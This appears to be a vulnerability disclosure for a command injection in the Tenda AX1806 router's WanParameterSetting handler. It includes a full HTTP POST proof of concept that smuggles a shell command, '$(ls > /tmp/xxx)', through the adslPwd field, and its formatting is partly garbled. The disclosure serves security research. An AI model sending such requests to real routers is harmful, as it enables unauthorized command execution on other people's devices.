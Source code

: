# *** Command Injection Vulnerability in Tenda AX1806  **

## ***\*Overview\****

* ***\*Type\****: Command Injection Vulnerability

* ***\*Supplier\****: Tenda ( https://tenda.com.cn )

* **\*Product\**: WiFi router AX1806

* Firmware download address: \**** https://www.tenda.com.cn/download/detail-3306.html

* Firmware download address: \**** https://down.tenda.com.cn/uploadfile/AX1806/US_AX1806V21brv1001cn2988ZGDX01.zip

Tenda AX1806 uses a new generation of WIFI6 (802.11ax) technology, and combines higher number of subcarriers and 1024QAM modulation technology. Compared with wifi-5 routers, dual-band wireless internet access rate is greatly improved. WanParameterSetting has a Command Execution Vulnerability

## ***\*Description\****

### ****1, Product Information:\****

Overview of the latest version of Tenda AX1806 router simulation:

![image-20220625113844733](img/image-20220625113844733.png)

 

 

 

\### ****2. Vulnerability Details\****

Tenda AX1806 was found to have a command injection vulnerability in the WanParameterSetting function

![image-20220624133917486](img/image-20220624133917486.png)

![image-20220625112118028](img/image-20220625112118028.png)

The non-zero is true, and when we change the adslPwd parameter, we get a command injection vulnerability after setting it.![img](./img/aaa.png)

 





## ***\*3. Recurring loopholes and POC\****

To reproduce the vulnerability, the following steps can be followed:

Start firmware (real machine) via qemu-system or other means

Attack using the following POC attacks

Note the replacement of password fields in cookies

```
POST /goform/WanParameterSetting?0.8762489734485668 HTTP/1.1
Host: i92.168.68.150
Connection: close
Content-Length: 191
sec-ch-ua: " Not A;Brand";v="99", "Chromium";v="98", "Google Chrome";v="98"
Accept: */*
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.109 Safari/537.36
sec-ch-ua-platform: "macOS"
Origin: https://i92.168.68.150
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://192.168.2.1/main.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: password=edeff4d6d98974e46457a587e2e724a2ndy5gk

wanType=2&adslUser=aaaa&adslPwd=$(ls > /tmp/xxx)&vpnServer=&vpnUser=&vpnPwd=&vpnWanType=l&dnsAuto=1&staticIp=&mask=&gateway=&dnsl=&dns2=&module=wanl&downSpeedLimit=
```

 